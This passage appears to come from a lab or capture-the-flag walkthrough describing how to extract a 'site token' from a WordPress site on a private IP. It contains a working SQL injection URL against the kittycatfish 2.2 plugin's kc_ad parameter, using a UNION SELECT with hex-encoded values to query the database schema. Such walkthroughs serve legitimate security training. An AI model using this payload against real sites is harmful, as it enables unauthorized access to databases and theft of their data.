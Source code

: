 <a href="/images/ptl-28.png"><img src="/images/ptl-28.png"></a>

## Finding the Site Token

From the table dump, we can see that there is a table named __t1\_token__ and I'm 100% certain that it contains the token.

We can use the following code to dump all the data from the __t1\_token__ table:

```
http://172.16.0.11/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16+union+select+0x6b635f61645f637373,(SELECT%20GROUP_CONCAT(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name=0x746c5f746f6b656e%20GROUP%20BY%20table_name%20LIMIT%200,1)
```

If done correctly, you should get the Site Token!
